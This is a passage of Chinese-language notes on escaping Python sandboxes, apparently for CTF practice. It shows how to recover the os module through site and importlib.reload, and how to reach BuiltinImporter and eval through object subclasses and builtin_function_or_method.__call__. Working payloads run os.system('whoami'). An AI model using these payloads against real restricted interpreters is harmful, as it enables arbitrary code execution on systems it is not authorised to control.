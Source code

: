 ><built-in method strip of str object at 0x000001A4174D4670>
>
>```
>
>关于`method_descriptor`:
>
>原理：
>
>```reasonml
>class C:
>    def method(self, arg):
>        print "In C.method, with", arg
>
>o = C()
>o.method(1)
>C.method(o, 1)
># Prints:
># In C.method, with 1
># In C.method, with 1
>```
>
>`o.method(1)` 可以看作是 `C.method(o, 1)`的简写。

能引入 site 的话，就相当于有 os。

那么也就是说，能引入 site 的话，就相当于有 os。那如果 site 也被禁用了呢？没事，本来也就没打算直接 `import site`。可以利用 `reload`，变相加载 `os`：

```
>>> import site
>>> site.os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
>>> del site.os
>>> site.os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: module 'site' has no attribute 'os'
>>> __import__('importlib').reload(site)
<module 'site' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\site.py'>
>>> site.os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
>>>
```

所有的类都继承的`object`，那么我们先用`__subclasses__`看看它的子类，在子类中选择出可以利用的类。

学习通过列表推导式执行

```
[i.load_module('os').system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == 'BuiltinImporter']
```

利用`builtin_function_or_method` 的 `__call__`，首先需要找到`builtin_function_or_method`类型的函数，也就是内建函数

```
''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['len'].__class__.__call__(eval, '1+1')

>>> "".__class__.__mro__[-1].__subclasses__()[22]().strip.__class__.__call__(eval, '__import__("os").system("whoami")')
desktop-13qds1a\lenovo
0

简单一点的paylaod
>>> ''.strip.__class__
<class 'builtin_function_or_method'>
>>> ''.strip.__class__.__call__(eval, '1+2')
3
```